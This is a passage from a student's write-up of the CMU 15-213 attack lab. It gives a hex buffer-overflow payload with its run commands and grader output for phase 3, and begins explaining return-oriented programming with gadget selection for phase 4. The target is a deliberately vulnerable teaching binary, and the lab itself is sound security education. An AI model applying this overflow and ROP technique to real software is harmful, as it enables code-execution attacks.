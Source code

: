 phase3.txt
``` 
48 c7 c7 80 25 61 55 c3	//*rsp + 48 the address where the cookie is present
00 00 00 00 00 00 00 00 //padding 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
38 25 61 55 00 00 00 00 //return address ($rsp)
a0 1a 40 00 00 00 00 00 //touch3 address
31 31 37 66 64 30 36 31 //cookie string (txt format)
```

Input commands

```
linux> ./hex2raw < phase3.txt > 2018080106.rtarget.l1
linux> ./ctarget -q -i 2018080106.rtarget.l1
```

and you should get something similar to below 
```
Cookie: 0x117fd061
Touch3!: You called touch3("117fd061")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id NoOne
        course  15213-f15
        lab     attacklab
        result  2018080106:PASS:0xffffffff:ctarget:3:48 C7 C7 80 25 61 55 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 38 25 61 55 00 00 00 00 A0 1A 40 00 00 00 00 00 31 31 37 66 64 30 36 31
```
## PHASE 4 
phase 4 is different from previous 3 because on this stack target we can't execute code due stack randomization and non-executable memory block. however, according to pdf, we can use ROP (return oriented programming), instead of executing our own code, we look for instructions in the code that do the same thing as we want. We will be using rtarget instead of ctarget. Such segments in code are known as gadgets, and we wil use gadgets to perform our exploitation. 

First execute the following commands to get assembly code for rtarget

```linux> objdump -d rtarget > rtarget.d```

shown below
rtarget.d

```
000000000040194d <getbuf>:
  40194d:	48 83 ec 38          	sub    $0x38,%rsp
  401951:	48 89 e7             	mov    %rsp,%rdi
  401954:	e8 9e 03 00 00       	callq  401cf7 <Gets>
  401959:	b8 01 00 00 00       	mov    $0x1,%eax
  40195e:	48 83 c4 38          	add    $0x38,%rsp
  401962:	c3                   	retq 
```

BUFFER_SIZE=0x38
  
The general idea is to store the cookie in a certain position in the stack, and then if you can directly pop %rdi, you can directly enter the touch2 function. But there is no pop %rdi in gadget, so we need to find another way. After checking, I found that there are two sentences 
```
pop %rax 
movq %rax, %rdi
```
```
